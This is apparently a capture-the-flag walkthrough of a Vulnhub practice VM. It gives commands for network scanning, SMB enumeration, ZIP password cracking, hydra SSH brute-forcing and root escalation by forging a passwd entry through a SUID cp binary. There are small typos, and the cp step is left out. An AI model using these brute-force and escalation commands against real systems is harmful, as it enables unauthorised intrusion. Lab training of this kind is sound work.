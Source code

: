 ## Gears of War: EP#1 Vulnhub Walkthrough
Gears of War: EP#1 VM is made by eDu809. This VM is a purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing. It is of intermediate level and is very handy in order to brush up your skills as a penetration tester. The ultimate goal of this challenge is to get root and to read the root flag.

Level: Intermediate

Since these labs are available on the Vulnhub Website. We will be downloading the lab file from this [link](https://www.vulnhub.com/entry/gears-of-war-ep1,382/).
Penetration Testing Methodology

Network Scanning

    Netdiscover
    Nmap Port Scan

Enumeration

    Browsing HTTP Service
    SMB Login

Exploiting

    Using Crunch to generate a wordlist
    Using Fcrack to bruteforce ZIP file password
    Using Hydra to bruteforce SSH Login

Privilege Escalation

    Reading /etc/passwd File
    Getting SUID bit files
    Using Openssl for generating a password hash
    Adding  User to /tmp file
    Reading Final Flag

### Walkthrough
##### Network Scanning

Let’s start by scanning the network for targets using Netdiscover.
netdiscover

[![ssd](https://1.bp.blogspot.com/-DcAk3IHGRXA/Xc7b0rtZRJI/AAAAAAAAhSQ/bhoJZrb8R6c-oXljraSdlURjJdHmArEAwCLcBGAsYHQ/s1600/1.png "ssd")](https://1.bp.blogspot.com/-DcAk3IHGRXA/Xc7b0rtZRJI/AAAAAAAAhSQ/bhoJZrb8R6c-oXljraSdlURjJdHmArEAwCLcBGAsYHQ/s1600/1.png "ssd")

We found the target IP Address 192.168.1.184. Let’s begin with basic port scanning with NMAP.
nmap -A -p- 192.168.1.184

[![sd](https://1.bp.blogspot.com/-hdst_cAleL4/Xc7b4SUd7UI/AAAAAAAAhS0/yXZceLS5dQQiAHX1TYDte9CWmVoRNrUbQCLcBGAsYHQ/s1600/2.png "sd")](dsd "sd")

Enumeration

For more details, we will need to start enumeration against the host machine. Therefore, we will navigate to a web browser for exploring HTTP service since port 80 is open.

[![sd](https://1.bp.blogspot.com/-tWvJslaFjsQ/Xc7b5eDeoYI/AAAAAAAAhS8/FSbB4GRc9xkZ73iIZ83Cj9Bog2xupYiJQCLcBGAsYHQ/s1600/3.png "sd")](dsd "sd")

Since HTTP service was not much of a help. On the other hand, we can clearly note from the nmap scan that we have the SMB service running, and we don’t have any credentials for the ssh so we went directly on with SMB. We logged in using the command mentioned. There is a list of shared directories. We tried accessing LOCUS_LAN$ directory and enumerated it. We find a notes.txt file and msg_horda.zip file. Let’s transfer these files on our machine to read their contents.

smbclient -L 192.168.1.184
smbclient //192.168.1.184/LOCUS_LAN$
get msg_horda.zip
get SOS.txt
ls

[![sd](https://1.bp.blogspot.com/-OlJOMed9xTA/Xc7b4_swmVI/AAAAAAAAhS4/dbZTrs4hnqEW5b8yFy-xGBEmkGlEjsEwQCLcBGAsYHQ/s1600/4.png "sd")](dsd "sd")

We tried opening the msg_horda.zip file but it seems password protected.

[![sd](https://1.bp.blogspot.com/-KWdpchB7rSY/Xc7b5Y2-1AI/AAAAAAAAhTA/pDq-3riNfFEkeGe7sPY9-ROzX-mHhC79ACLcBGAsYHQ/s1600/5.png"sd")](dsd "sd")

We thought of reading the contents of SOS.txt file and it was a success. It surely gave us a hint about the characters of the password for ZIP file.

[![sd](https://1.bp.blogspot.com/-ZzR4MrfHwK0/Xc7b59xPQUI/AAAAAAAAhTE/uUc5Jd8iWz8JlNqyNs0Y-XdD52bETAmVwCLcBGAsYHQ/s1600/6.png"sd")](dsd "sd")

#### Exploiting
It’s time to FIRE UP!! Crunch and generate a wordlist as per the combination of the password we have fetched from the SOS.txt file.

crunch 4 4 -t @%%, -o wordlist

[![sd](https://1.bp.blogspot.com/-urR3hwnlwMU/Xc7b6FH5UUI/AAAAAAAAhTI/C_xhBS2aUgE6e1RQg9aMZsg6mvy_bRRUwCLcBGAsYHQ/s1600/7.png"sd")](dsd "sd")

Once the wordlist is all set up, we have used FCRACK TOOL to crack the password for the ZIP file as shown below.
	
frackzip -D -u -v -p wordlist msg_horda.zip

The password for the ZIP file is r44M. We also found a key.txt file inside the ZIP file.

[![sd](https://1.bp.blogspot.com/-ogQ7qeATPvQ/Xc7b6vpnxCI/AAAAAAAAhTM/rAVhnmygTssP3-ajnnzbJfyzFCvC5QamwCLcBGAsYHQ/s1600/8.png"sd")](dsd "sd")

After reading the key.txt file, we got another credential which could be useful for SSH login but we still need a username. Bring up HYDRA.

[![sd](https://1.bp.blogspot.com/-W_keq5u6aZ8/Xc7b6u38E5I/AAAAAAAAhTQ/0QR-4SrmnjgFTGtxqVaZlchGpoKzBtcOQCLcBGAsYHQ/s1600/9.png"sd")](dsd "sd")

We have brute forced the username for SSh Login using hydra with password 3_d4y.
hydra -L /usr/share/wordlists/rockyou.txt -p 3_d4y -T4 192.168.1.184 ssh
1
	
hydra -L /usr/share/wordlists/rockyou.txt -p 3_d4y -T4 192.168.1.184 ssh

[![sd](https://1.bp.blogspot.com/-xjMDA1maMm0/Xc7b0dO7WBI/AAAAAAAAhSM/C-K-4sHEu9c2Uo6lMIOXcrjOJ921Il0EwCLcBGAsYHQ/s1600/10.png"sd")](dsd "sd")

After successfully logged into SSH, we try enumerating the /etc directory but couldn’t because user Marcus doesn’t have the privileges to access the /etc directory.

ssh marcus@192.168.1.184
id
cd /etc

[![sd](https://1.bp.blogspot.com/-vsPL5WcJvrE/Xc7b0gSqo-I/AAAAAAAAhSU/dbgsnZxSSz0Wp1sjbFPMUJjj7RG7ppLQACLcBGAsYHQ/s1600/11.png"sd")](dsd "sd")

#### Privilege Escalation

Since our target machine is in a bash shell. We will be using a command to force SSH for TTY allocation. This will help us run commands as an administrator. Finally, we are able to access the /etc directory.

ssh marcus@192.168.1.184 -t "bash --noprofile"
cd /etc

[![sd](https://1.bp.blogspot.com/-l5cRxRFZZBk/Xc7b1vKx3tI/AAAAAAAAhSc/jDwVyX5WjkolLAmKK-c-KkXIUxq5KNE5wCLcBGAsYHQ/s1600/12.png"sd")](dsd "sd")

pwd

On reading the passwd file which was not much help, but we got an idea what we can do next.

cat passwd

[![sd](https://1.bp.blogspot.com/-22sFp0mQPrQ/Xc7b1r2ljkI/AAAAAAAAhSY/9qbRH85twUIa_gBA5uoeR3krAKgCpELggCLcBGAsYHQ/s1600/13.png"sd")](dsd "sd")

On checking the SUID bit for all the readable files under /bin directory, we came to know that the current user can use the cp command. This is going to be interesting.
find /bin -type f -perm -u=s 2>/dev/null

[![sd](https://1.bp.blogspot.com/-g7msejnGThQ/Xc7b17b_2fI/AAAAAAAAhSg/yYrC3H0bYXMUeiksVIGoCGT4VCPalhKYQCLcBGAsYHQ/s1600/14.png"sd")](dsd "sd")

Without any further waiting, we need the password hash for the user that we are going to create on the target machine by making an entry in the /etc/passwd file. We are going to use the openssl to generate a salted hash.

openssl passwd -1 -salt raj pass123

[![sd](https://1.bp.blogspot.com/-ZFTFm7ri0U4/Xc7b2Y655MI/AAAAAAAAhSk/ioLBv5LhNxQA81k_5_hf53n7li_8guJhgCLcBGAsYHQ/s1600/15.png"sd")](dsd "sd")

Now back to our user marcus on the target machine. Here we are going to use the hash that we generated in the previous step and make a user raj which has the elevated privilege. We have to use nano command to make an entry in the /tmp directory. After making an entry we checked the entry using the tail command. cd /tmp

nano passwd
cat passwd | tail

[![sd](https://1.bp.blogspot.com/-8iBIRQ-XWbA/Xc7b3Ei8srI/AAAAAAAAhSo/H4XZjcTY02EroXH0tyx3Z58jdxjP4FwTQCLcBGAsYHQ/s1600/16.png"sd")](dsd "sd")

Now all we to do login using username and password, we just created to get our root shell. On enumeration we found flag.txt.

su raj
whoami
cd /root
ls -al

[![sd](https://1.bp.blogspot.com/-RJhHbIqOtzg/Xc7b3Arc5TI/AAAAAAAAhSs/9yGBimFr1zscW6Wz0fA6zDEZUO5i6CH8gCLcBGAsYHQ/s1600/17.png"sd")](dsd "sd")

Time to Read our Final Flag!!

cat flag.txt

[![sd](https://1.bp.blogspot.com/-teZD-XEdADA/Xc7b3UoPuHI/AAAAAAAAhSw/JxtEDptUjjkAl5i11WCxuQFb-CSByZIbQCLcBGAsYHQ/s1600/18.png"sd")](dsd "sd")
